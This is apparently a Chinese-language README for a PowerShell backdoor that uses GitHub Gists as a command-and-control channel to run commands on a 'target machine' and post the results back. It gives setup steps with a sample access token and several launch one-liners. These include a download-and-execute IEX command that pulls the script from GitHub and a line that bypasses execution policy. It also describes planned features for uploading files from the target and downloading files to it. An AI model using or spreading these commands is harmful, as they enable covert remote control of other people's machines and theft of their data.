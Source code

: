 ###Powershell Github Shell
	Author:zshell
	Github:https://github.com/zlocal/Powershell-Github-Shell
	Demo Result Gist:https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e

####使用方法：<br>
##### 1，创建github账户，访问https://github.com/settings/tokens/new  选中 gist   Create gists ，创建访问Gists的token.<br>
##### 2, 访问 https://gist.github.com/ ，创建一个Gist，属性最好为private,只有自己能访问查看结果，名称为cmd.例：<br>
###### 为了展示，我设置了public https://gist.github.com/zlocal/1d449f3c195531c8cafbebfe808ea46e <br>
	Command:"time /T"
	ReadFile:"c:/windows/temp/1.txt"
	WriteFile:"http://www.github.com/raw/1.zip c:/wnidows/temp/2.txt"
	Powershell:"Get-Process | Out-String"
	Command:"whoami"
其中<br>
###### Command后是想要执行的cmd命令，功能已测试OK<br>
###### ReadFile是上传目标机器上的文件到Github，暂未实现<br>
###### WriteFile下载文件到目标机器，暂未实现<br>
###### Powershell后是可以执行的Powershell指令，暂未实现<br>

##### 3, 修改Powershell脚本的头部配置信息
$gistsUser="gitusername";		# github的用户名<br>
$gistsApiToken="gittoken";		# 上步中得到的token ，例eed4239e439034a92fc4cbe0fbd2ca906999a9f1<br>
$checkTime=60;				# 每次获取命令结果需要等待的时间，秒为单位<br>

##### 4, 使powershell在目标机器上执行
##### Powershell执行方法<br>
一句话远程加载(推荐) <br>
```
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zlocal/Powershell-Github-Shell/master/PGShell.ps1')
```
一句话本地加载<br>
```
powershell IEX ([System.IO.File]::readAllText('PowershellGitShell.ps1'));	//powershell
```
一句话文件执行<br>
```
powershell -executionPolicy bypass -File "c:/test/PowershellGitShell.ps1"	//powershell
```
##### 5，可以修改cmd gist的内容，在$checkTime秒后刷新网页，结果会在评论中。结果需要使用URL DECODE解码。
